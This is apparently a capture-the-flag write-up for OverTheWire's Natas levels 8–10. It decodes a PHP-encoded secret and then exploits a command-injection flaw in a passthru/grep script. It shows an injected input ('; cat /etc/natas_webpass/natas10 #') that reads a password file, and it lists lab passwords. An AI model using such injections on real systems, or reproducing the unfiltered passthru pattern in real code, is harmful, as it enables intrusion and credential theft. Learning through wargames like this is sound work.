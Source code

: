 ```py
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
...
--------------------------------------------------------
the secret code we need is encoded.
the “secret” entered is converted from "bin" to "hex", reversed, and then "base64 encoded".
return bin2hex(strrev(base64_encode($secret)))
"3d3d516343746d4d6d6c315669563362"

to reverse engineer this.
opening the console, start up PHP with "php -a".
--------------------------------------------------------
$ php -a
php > echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));
oubWYf2kBq
--------------------------------------------------------
get the secret key oubWYf2kBq.
got the password W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

---

## Natas Level 8 → Level 9
Username: natas9
URL:      http://natas9.natas.labs.overthewire.org
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

```py
Find words containing:
Output:
--------------------------------------------------------
Output:
<pre><?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?></pre>
--------------------------------------------------------
type in the word “password”
then the passthru command in the PHP script: grep -i password dictionary.txt.
key is encapsulated in quotes, no input filtering, able to enter special characters.
--------------------------------------------------------
use the ";" command separator to use 2 commands in one line.
use the "#" command, comment out the rest of the text following the symbol.

in the input field type
"; cat /etc/natas_webpass/natas10 #"
in turn will run the passthru command as such;
"grep -i ; cat /etc/natas_webpass/natas10 #, commenting out and removing dictionary.txt."
--------------------------------------------------------
Output:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
--------------------------------------------------------
```

---